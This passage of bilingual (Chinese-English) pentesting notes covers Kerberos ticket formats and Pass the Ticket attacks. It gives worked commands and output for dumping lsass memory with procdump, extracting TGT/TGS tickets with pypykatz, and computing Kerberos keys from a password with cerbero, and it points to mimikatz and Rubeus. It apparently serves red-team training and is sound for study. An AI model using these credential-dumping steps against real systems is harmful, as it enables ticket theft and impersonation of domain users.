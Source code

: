 | ccache | Linux存票据                                  |
| ------ | -------------------------------------------- |
| krb    | win在lsass存票据，网络中传输票据也是这个格式 |

转换格式可以用  [ticket_converter.py](https://github.com/Zer1t0/ticket_converter) script or [cerbero convert](https://gitlab.com/Zer1t0/cerbero#convert) command

```text
###Convert a ticket with ticket_converter.py
$ python ticket_converter.py ~/Anakin.ccache ~/Anakin.krb
Converting ccache => kirbi
```

 [cerbero hash](https://gitlab.com/Zer1t0/cerbero#hash) 能用密码算Kerberos密钥，[Get-KerberosAESKey.ps1 ](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372)算AES密钥，[few python lines ](https://stackoverflow.com/questions/15603628/how-to-calculate-ntlm-hash-in-python#answer-15603809)算NT哈希

```bash
###Calculate Kerberos keys with cerbero
$ cerbero hash 'Vader1234!' -u contoso.local/Anakin
rc4:cdeae556dc28c24b5b7b14e9df5b6e21
aes128:18fe293e673950214c67e9f9fe753198
aes256:ecce3d24b29c7f044163ab4d9411c25b5698337318e98bf2903bbb7f6d76197e
```

### **Pass the Ticket**

流程包括偷票据，和会话密钥关联，用它们冒充用户来获得资源和服务。

TGTs and STs 都行，但TGTs 更好，因为能代表用户访问任意服务（通过用TGTs请求ST），STs只能一个服务（或多个，如果 [SPN is modified ](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/)到另一个同用户的服务）

Windows票据在 lsass 进程内存， [mimikatz sekurlsa::tickets](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#tickets) command or [Rubeus dump ](https://github.com/GhostPack/Rubeus#dump)能取，  [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), [sqldumper or others ](https://lolbas-project.github.io/#/dump)来dump lsass也行，mimikatz or [pypykatz ](https://github.com/skelsec/pypykatz)离线提取，格式为krb 

```powershell
###Dumping lsass memory with procdump
PS C:\> .\procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[12:03:17] Dump 1 initiated: C:\lsass.dmp
[12:03:18] Dump 1 writing: Estimated dump file size is 34 MB.
[12:03:18] Dump 1 complete: 34 MB written in 1.0 seconds
[12:03:18] Dump count reached.
```

```bash
###Retrieving tickets from lsass dump with pypykatz
$ pypykatz lsa minidump lsass.dmp -k /tmp/kerb > output.txt
INFO:root:Parsing file lsass.dmp
INFO:root:Writing kerberos tickets to /tmp/kerb
$ ls /tmp/kerb/
 lsass.dmp_51a1d3f3.ccache                                                        'TGS_CONTOSO.LOCAL_WS02-7$_WS02-7$_29a9c991.kirbi'
 lsass.dmp_c9a82a35.ccache                                                         TGT_CONTOSO.LOCAL_anakin_krbtgt_CONTOSO.LOCAL_6483baf5.kirbi
 TGS_CONTOSO.LOCAL_anakin_LDAP_dc01.contoso.local_contoso.local_f8a46ad5.kirbi    'TGT_CONTOSO.LOCAL_WS02-7$_krbtgt_CONTOSO.LOCAL_740ef529.kirbi'
'TGS_CONTOSO.LOCAL_WS02-7$_cifs_dc01.contoso.local_b9833fa1.kirbi'                'TGT_CONTOSO.LOCAL_WS02-7$_krbtgt_CONTOSO.LOCAL_77d63cf0.kirbi'
```